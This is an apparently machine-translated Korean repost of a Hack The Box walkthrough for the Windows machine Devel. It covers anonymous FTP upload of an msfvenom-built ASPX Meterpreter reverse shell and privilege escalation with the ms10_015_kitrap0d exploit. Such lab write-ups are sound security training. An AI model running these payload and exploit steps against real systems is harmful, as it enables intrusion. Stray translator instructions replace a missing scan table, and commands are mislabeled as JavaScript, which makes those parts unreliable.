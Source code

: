 ```yaml
---
title: "Devel  Hack The Box 워크스루"
description: ""
coverImage: "/assets/img/2024-06-19-DevelHackTheBoxWalk-through_0.png"
date: 2024-06-19 01:18
ogImage:
  url: /assets/img/2024-06-19-DevelHackTheBoxWalk-through_0.png
tag: Tech
originalTitle: "Devel — Hack The Box Walk-through"
link: "https://medium.com/@jaylinscorner/devel-hack-the-box-walkthrough-6a04f5f0b8a3"
isUpdated: true
---
```


안녕하세요!

오늘은 과거에 완료한 Hack The Box 머신인 Devel을 살펴보겠습니다. 이 머신은 Windows 머신에서의 지역 권한 상승을 강조합니다.

이 머신은 여전히 Hack The Box에서 이용 가능한 쉬운 난이도의 은퇴된 머신입니다. 이 글을 쓰는 시점에서는 불행히도 이 머신에 접근하려면 VIP 멤버십이 필요합니다. 제가 이 머신을 루팅했을 때는 무료였지만, 곧 다시 무료가 될 수도 있습니다.

더 이상 말 늑대, 시작해 봅시다!

<!-- cozy-coder - 수평 -->

<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

마크다운 형식으로 테이블 태그를 변경해주세요.

<!-- cozy-coder - 수평 -->

<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

우리가 포트 스캔 결과 익명 FTP 로그인이 허용되어 있음을 알려주었기 때문에 익명으로 FTP에 로그인을 시도해 볼 수 있습니다.

![이미지](/assets/img/2024-06-19-DevelHackTheBoxWalk-through_2.png)

우리는 성공적으로 포트 21인 FTP에 익명으로 로그인했습니다. 현재 디렉토리에 있는 파일 목록을 볼 수 있습니다.

이 서버가 Microsoft IIS/7.5를 실행 중이기 때문에, ASP 및 ASPX 확장자를 가진 코드 실행을 허용하는 이 버전의 IIS에서 익명으로 파일을 업로드하는 시도를 해볼 수 있습니다.

<!-- cozy-coder - 수평 -->

<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

<img src="/assets/img/2024-06-19-DevelHackTheBoxWalk-through_3.png" />

랜덤 ASPX 파일을 업로드한 후 익명 사용자의 업로드 기능을 이용할 수 있다는 점을 알 수 있습니다.

ASPX 파일을 업로드할 수 있으므로 ASPX 역술을 생성해볼 수 있습니다.

터미널에서 Metasploit Payload Generator를 엽니다.

<!-- cozy-coder - 수평 -->

<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

```js
msfvenom;
```

그런 다음, ASPX 역술 쉘을 만들려면 다음을 사용합니다:

```js
msfvenom -f aspx -p windows/meterpreter/reverse_tcp LHOST=(내_IP) LPORT=4444 -o moe.aspx
```

msfvenom을 사용하여 역술 쉘을 얻을 수 있는 올바른 페이로드를 생성하려고 합니다. 이 경우 Windows reverse_tcp 페이로드를 사용하고 있으며, 이는 Windows 상자이기 때문입니다. 선택한 옵션은 Meterpreter입니다.

<!-- cozy-coder - 수평 -->

<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

다음은 플래그입니다:

- -f: 출력 형식
- -p: 사용할 페이로드 (우리 시나리오에서는 Windows Reverse TCP)
- LHOST: 우리 자신입니다; 이 페이로드의 역쉘 수신 측에 있을 것입니다. 우리가 수신 대기 중인 IP를 입력하는 곳입니다 (eth0 또는 tun0)
- LPORT: 우리가 수신 대기할 포트, 보통 기본값으로 4444를 유지합니다
- -o: 서버에 업로드된 페이로드를 포함하는 출력 파일

이 파일을 업로드 시도하면 성공합니다. 이제 업로드한 파일과 상호 작용하기 위해 리스너를 구성합니다.

터미널에서 msfconsole을 실행하여 Metasploit으로 리스너를 구성합니다:

<!-- cozy-coder - 수평 -->

<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

msfconsole

그런 다음 사용할 exploit으로 이동하겠습니다.

use exploit/multi/handler

그런 다음 옵션을 우리가 원하는 대로 구성합니다.

<!-- cozy-coder - 수평 -->

<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

해당 표식을 마크다운 형식으로 변경하시면 됩니다.

<!-- cozy-coder - 수평 -->

<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

```js
set payload windows/meterpreter/reverse_tcp
```

참고: 이번에는 세션 ID를 실행하기 전에 기억하는 것이 중요합니다. 나중에 사용할 것입니다.

이제 실행해 봅시다!! :

```js
run;
```

<!-- cozy-coder - 수평 -->

<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

우리는 브라우저에서 ASPX 역쉘 파일을 다음과 같이 로드합니다:

```js
10.10.10.5/{File_Name}
```

이제 터미널에서 호스트 OS 안에 있다는 것을 확인할 수 있습니다

<img src="/assets/img/2024-06-19-DevelHackTheBoxWalk-through_4.png" />

<!-- cozy-coder - 수평 -->

<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

이제 파일 시스템으로 이동해 보아야 합니다. 가능하면 C 드라이브로 이동하겠습니다.

그래서 다음과 같이 세션을 백그라운드로 설정합니다:

```js
background;
```

그런 다음, 획득한 시스템에서 로컬 취약점을 찾기 위해 Metasploit을 다시 엽니다. msfconsole을 열고 exploit/multi/handler로 이동한 다음 post/multi/recon/local_exploit_suggester로 넘어갑니다.

<!-- cozy-coder - 수평 -->

<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

```js
use post/multi/recon/local_exploit_suggester
```

![Image 1](/assets/img/2024-06-19-DevelHackTheBoxWalk-through_5.png)

이전에 메모한 세션 ID를 여기에 입력하겠습니다:

![Image 2](/assets/img/2024-06-19-DevelHackTheBoxWalk-through_6.png)

<!-- cozy-coder - 수평 -->

<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

우리의 세션 ID를 구성한 후에 이를 실행할 거에요. 이 모듈은 Windows에서 로컬 악용을 찾을 거에요.

실행이 완료되면 Metasploit이 사용을 제안하는 것을 볼 수 있을 거에요:

```js
exploit / windows / local / ms10_015_kitrap0d;
```

이 모듈은 Windows Machines에서 시스템 권한으로 새로운 세션을 만들 것이에요. 이 모듈은 CVE-2010–0232와 관련된 악용인데요, 이는 Microsoft Windows 커널 예외 처리기 취약점에 관련된 것이에요.

<!-- cozy-coder - 수평 -->

<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

우리는 옵션을 조정합니다...

맞죠!

```js
show options
```

들을 호스트를 설정해요. 그리고 우리의 리스닝 포트를 4445로 설정할 거에요; 다른 포트를 사용하여 exploit을 수행할 거예요. 마지막으로 세션을 리스너와 동일하게 만들 거에요.

<!-- cozy-coder - 수평 -->

<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

그럼 이제 실행해 봅시다!

![이미지](/assets/img/2024-06-19-DevelHackTheBoxWalk-through_7.png)

우리의 Exploit이 완료된 것 같은데 성공했을까요?

Meterpreter에서 명령 셸을 사용합니다.

<!-- cozy-coder - 수평 -->

<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

접근 성공! 이제 cd ..를 사용하여 C 드라이브로 이동합니다.

![이미지](/assets/img/2024-06-19-DevelHackTheBoxWalk-through_8.png)

C 드라이브의 내용을 분석하고 사용자 디렉토리가 흥미로울 수 있다는 것을 알 수 있었습니다. 해당 디렉터리로 이동하면 관리자 및 바비스와 같이 발견할 가치가 있는 2개의 사용자 디렉토리가 보입니다.

![이미지](/assets/img/2024-06-19-DevelHackTheBoxWalk-through_9.png)

<!-- cozy-coder - 수평 -->

<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

해당 디렉터리로 이동하고 두 가지 모두 사용자 및 루트 권한을 얻어야 이 상자를 루팅할 수 있어요!

![이미지 1](/assets/img/2024-06-19-DevelHackTheBoxWalk-through_10.png)

![이미지 2](/assets/img/2024-06-19-DevelHackTheBoxWalk-through_11.png)

이것은 제 첫 번째 게시된 Hack The Box 워크스루입니다. 이 워크스루를 작성하는 것은 나에게 유용한 경험을 얻게 도와주고 동시에 다른 사람들이 학습하는 데 도움이 되기도 해요!

<!-- cozy-coder - 수평 -->

<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

도움이 되었다면 알려주세요. 또한 Linkedin에서 연락해도 괜찮습니다:

www.linkedin.com/in/jaylin-nelson

참고 문헌:
